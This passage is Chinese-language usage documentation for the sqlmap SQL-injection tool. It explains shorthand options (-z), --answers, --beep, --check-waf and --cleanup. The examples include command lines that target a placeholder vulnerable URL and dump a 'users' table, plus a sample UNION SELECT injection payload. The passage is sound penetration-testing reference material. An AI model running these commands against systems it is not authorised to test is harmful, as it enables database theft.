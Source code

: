 参数：`-z`

有使用参数太长太复杂，可以使用缩写模式。 例如：
```
python sqlmap.py --batch --random-agent --ignore-proxy --technique=BEU -u "www.target.com/vuln.php?id=1"
```
可以写成：
```
python sqlmap.py -z "bat,randoma,ign,tec=BEU" -u "www.target.com/vuln.php?id=1"
```
还有：
```
python sqlmap.py --ignore-proxy --flush-session --technique=U --dump -D testdb -T users -u "www.target.com/vuln.php?id=1"
```
可以写成：
```
python sqlmap.py -z "ign,flu,bat,tec=U,dump,D=testdb,T=users" -u "www.target.com/vuln.php?id=1"
```
成功SQL注入时警告 

参数：`--alert`

设定会发的答案

参数：`--answers`
```
当希望sqlmap提出输入时，自动输入自己想要的答案可以使用此参数： 例子：
$ python sqlmap.py -u "http://192.168.22.128/sqlmap/mysql/get_int.php?id=1"--technique=E --answers="extending=N" --batch
[...]
[xx:xx:56] [INFO] testing for SQL injection on GET parameter 'id'
heuristic (parsing) test showed that the back-end DBMS could be 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[xx:xx:56] [INFO] do you want to include all tests for 'MySQL' extending provided level (1) and risk (1)? [Y/n] N
[...]
```
发现SQL注入时发出蜂鸣声

参数：`--beep`

发现sql注入时，发出蜂鸣声。
启发式检测WAF/IPS/IDS保护

参数：`--check-waf`

WAF/IPS/IDS保护可能会对sqlmap造成很大的困扰，如果怀疑目标有此防护的话，可以使用此参数来测试。 sqlmap将会使用一个不存在的参数来注入测试

例如：
```
&foobar=AND 1=1 UNION ALL SELECT 1,2,3,table_name FROM information_schema.tables WHERE 2>1
```
如果有保护的话可能返回结果会不同。
清理sqlmap的UDF(s)和表

参数：`--cleanup`
